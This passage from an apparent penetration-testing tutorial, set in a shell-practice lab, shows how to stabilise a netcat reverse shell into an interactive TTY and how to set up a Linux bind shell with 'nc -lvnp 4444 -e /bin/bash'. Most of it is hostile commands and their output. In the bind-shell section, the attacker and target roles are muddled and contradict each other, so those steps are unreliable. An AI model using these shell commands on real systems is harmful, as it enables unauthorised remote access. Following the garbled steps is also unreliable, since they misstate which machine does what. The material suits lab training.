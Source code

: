 The `reverse shell` in attacking machine would have spawned at the `netcat` listener. Use `python` to spawn `bash` shell. Background the `netcat` listener to sanitise the `reverse shell`.
{% capture code %}{% raw %}Connection from <target-ip> 59568 received!

python3 -c 'import pty ; pty.spawn("/bin/bash")'
shell@linux-shell-practice:~$ ^Z
[1]+  Stopped                 nc -lnvp 443{% endraw %}{% endcapture %} {%include code.html code=code %}

Turn off `echo` in `reverse shell` in attacking machine and foreground it so the `reverse shell` can show the output properly inside `netcat` listener.
{% capture code %}{% raw %}stty raw -echo ; fg{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained. TTY rows and columns can also be set so `vim` or `nano` editor will be aligned according to shell resolution.
{% capture code %}{% raw %}nc -lnvp 443

shell@linux-shell-practice:~$ export TERM=xterm
shell@linux-shell-practice:~$ ^C
shell@linux-shell-practice:~$ {% endraw %}{% endcapture %} {%include code.html code=code %}


### Bind Netcat Shell - Linux

Create a `netcat` listener in attacking machine.
{% capture code %}{% raw %}nc -lvnp 4444 -e /bin/bash{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained, which mentions the listener is active.
{% capture code %}{% raw %}listening on [any] 4444 ...{% endraw %}{% endcapture %} {%include code.html code=code %}

Use `stty -a` to get the current terminal settings.
{% capture code %}{% raw %}speed 38400 baud; rows 34; columns 169; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W;
lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk brkint ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc{% endraw %}{% endcapture %} {%include code.html code=code %}

Create a `netcat` listener in target machine for `bind shell`.
{% capture code %}{% raw %}nc -nv <target-ip> 4444{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained, which mentions the listener is active.
{% capture code %}{% raw %}Connection to <target-ip> 4444 port [tcp/*] succeeded!{% endraw %}{% endcapture %} {%include code.html code=code %}

Activate the `bind shell` from the attacker.
{% capture code %}{% raw %}nc -lvnp 4444 -e /bin/bash{% endraw %}{% endcapture %} {%include code.html code=code %}
